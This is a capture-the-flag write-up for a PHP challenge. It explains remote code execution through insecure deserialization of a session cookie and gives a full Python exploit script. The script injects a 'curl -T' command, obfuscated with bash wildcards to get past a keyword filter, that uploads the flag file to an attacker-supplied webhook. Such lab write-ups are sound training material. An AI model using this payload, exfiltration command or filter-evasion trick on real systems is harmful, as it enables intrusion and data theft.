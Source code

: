# Php Neon

## Overview
The flag can be obtained through RCE (Remote Code Execution). It's possible to exploit deserialization to achieve RCE in the username via PHP `shell_exec` command. To do this, it's enough to serialize a User object and pass the bash command we want into the username, closing the previous string and commenting out the remaining apostrophe at the end. Once the object is serialized, we can convert it to base64 and use it as a session cookie. Since `shell_exec` executes code without displaying the output, it's necessary to use an external server such as ngrok or requestbin to send the flag. To make things even more complicated, the strings like `flag` or `curl` have been banned, but this can be easily bypassed using bash wildcards. For example, `/f*` will not be blocked e we can rewrite `curl` as `c?rl`, but execute it by referencing it from `/usr/bin/c?rl`.

## Exploit
```py
import subprocess
import requests

url = "http://127.0.0.1:6003"
webhook = input("webhook: ")

php_code = f"""
    <?php
    class User {{
        public $username;

        public function __construct($username) {{
            $this->username = $username;
        }}
    }}
    echo base64_encode(serialize(new User("'; /usr/bin/c?rl -T /f* {webhook} #")));
    ?>
"""

output = subprocess.check_output(["php"], input=php_code.encode())
cookies = output.decode().strip()

requests.get(url, cookies={"user": cookies})
```